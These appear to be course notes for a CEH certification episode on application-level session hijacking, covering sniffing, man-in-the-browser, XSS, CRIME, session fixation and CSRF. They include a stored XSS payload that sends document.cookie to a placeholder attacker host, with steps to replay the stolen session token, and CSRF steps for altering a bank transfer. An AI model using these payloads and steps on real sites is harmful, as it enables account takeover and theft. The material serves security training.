     Filename: eccouncil-ceh31250-v11-11-3-1-application-level-session-hijacking.md
    Show Name: CEHv11 (312-50)
    Topic Name: Network and Perimeter Hacking: Session Hijacking
    Episode Name: Application Level Session Hijacking ================================================================================

Application Level Session Hijacking
Objectives:

#    List and define common Application-Level Session Hijacking attacks

-    What are some of the common App-Level Session Hijacking attacks we should be aware of?
#        Sniffing
            Just sniff network traffic and intercept session tokens/IDs


#        MitM
            Employ MitM to enable traffic sniffing


#        MitB
            Malware-based approach
                Malware hooks the browser and intercepts session info
		- install a trojan and it 

#        XSS
            DEMO
-                Reflected
bWAPP

First name:

<script>alert('xss')</script>

Last name:

GO
# when we press go we get a pop up alert box. Which lets us know that this site is vulnerable to reflective crossite scripting 

-                DOM-based


-                Stored | Persistent
-                    Attacker setup:
                        Setup HTTP listener with Python
                        <script>new Image().src="http://ATTACK-IP:8000/bogus.php?output="+document.cookie;</script>
-                    Target then browses to 'blog'
                        Target token shows up in Attack HTTP log
-                    Attacker then copies token and logs into Web site
                        Ctrl-Shift-I to start browser Dev tools
                            Storage
                                Paste token into PHPSESSID value
                                    Reload page (you are now logged in as AIM)



#NOTE: He has never been able to make this work properly or has he seen anyone make it work properly. Or well enough to call a good demonstration.


#        CRIME
            Compression Ratio Info-Leak Made Easy
            Exploits a vulnerability in the use of compression features found in
                HTTPS/SSL/TLS
                SPDY (pronounced 'speedy')


#        Session Fixation and Donation
            Sites that transmit Session tokens via the URL are susceptible
                Fixation
                    Get an anonymous session token
                        Craft an email link (social engineering)
                            User clicks link
                                Gets sent to login page to authenticate
                                    User logs in and continues to use session token from Phish
                                        Attacker can now use the same session token and be authenticated as the target user

#                Donation
                    Same as Fixation with one small change
                        Attacker uses their authenticated session token


#        CSRF
            DEMO (just explain and show the effect, don't show setup)
-                Attack Setup
                    Login to 'bank' website and transfer a small amount
                    Grab the URL
                    Modify the POST data in the URL
                        Increase the transfer amount to 100
                    Get Target to click malicious link
                        Social Engineering
                        XSS
                            Set this as Stored XSS in 'blog'
-                Target
                    Clicks malicious link
                    Browses to Stored XSS page
        Session ID prediction
            http://example.com/webapp?sessid=3
                What happens when you change '3' to '0'?


===========================================================
Brief Descriptions 

- Man in the browser attacks are typically where you install some form of malware, typically a trojan and it takes over the browser settings. 
- It starts making changes and setting them a lot of times affecting things like proxy settings, intercepting that information like where you're 
- going and then of course the things that are returned by the servers then it's recording that and sending that information along to the attacker.
- So a man in the browser attack, not really like the malware is pretty sophisticated as far as being able to do that and go undetected and all 
- the other great stuff. But the concept of it to me is it's pretty straight forward, fairly simple. Out of malware takes over browser settings 
- And intercepts information that the browser is browsing to, right? So if it's going to a site gets it, there's any session, IDS tokens so and 
- so forth. It can grab that shovel that back to the attacker and the attacker can use that information to his nefarious ends or her nefarious 
- ends as it very well may be.

